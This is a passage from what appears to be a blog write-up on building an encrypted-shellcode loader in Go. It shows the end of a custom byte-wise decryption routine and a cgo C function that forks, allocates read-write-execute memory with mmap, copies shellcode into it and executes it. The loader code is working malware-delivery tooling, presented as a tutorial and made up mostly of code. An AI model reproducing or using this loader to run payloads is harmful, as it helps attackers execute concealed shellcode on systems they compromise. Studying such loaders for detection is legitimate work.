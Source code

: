 ```go
            top = sbox[top];

            bottom = text[(i + 1) % 8];
            bottom = (bottom >> 1) | (bottom << 7);

            text[(i + 1) % 8] = bottom - top;
        }
    }

    return text
       
}
```

<figcaption class="figure-caption">Decryption function</figcaption>

Similarly to the encryption function, this one accepts the same three arguments, and returns eight bytes of decrypted data.

## Shellcode execution

It seems that executing shellcode from Go isn't as straightforward as in C or C++. For this reason, I had to search for a workaround.

In the end, I found a [method](https://medium.com/syscall59/a-trinity-of-shellcode-aes-go-f6cec854f992) that imports some C code which in turn uses the mmap and memcpy functions to move the shellcode to a new executable memory region, and then executes it.

Below is the C code:

```go
/*
#include <stdio.h>
#include <sys/mman.h>
#include <string.h>
#include <unistd.h>

void run_shellcode(char *shellcode, size_t shellcode_length)
{
    if(fork())
    {
        return;
    }

    unsigned char *ptr;
    ptr = (unsigned char *) mmap(
        0,
        shellcode_length,
        PROT_READ|PROT_WRITE|PROT_EXEC,
        MAP_ANONYMOUS | MAP_PRIVATE,
        -1,
        0
    );

    if(ptr == MAP_FAILED)
    {
        perror("mmap");
        return;
    }

    memcpy(ptr, shellcode, shellcode_length);
    (*(void(*) ()) ptr)();
}
*/
import "C"
```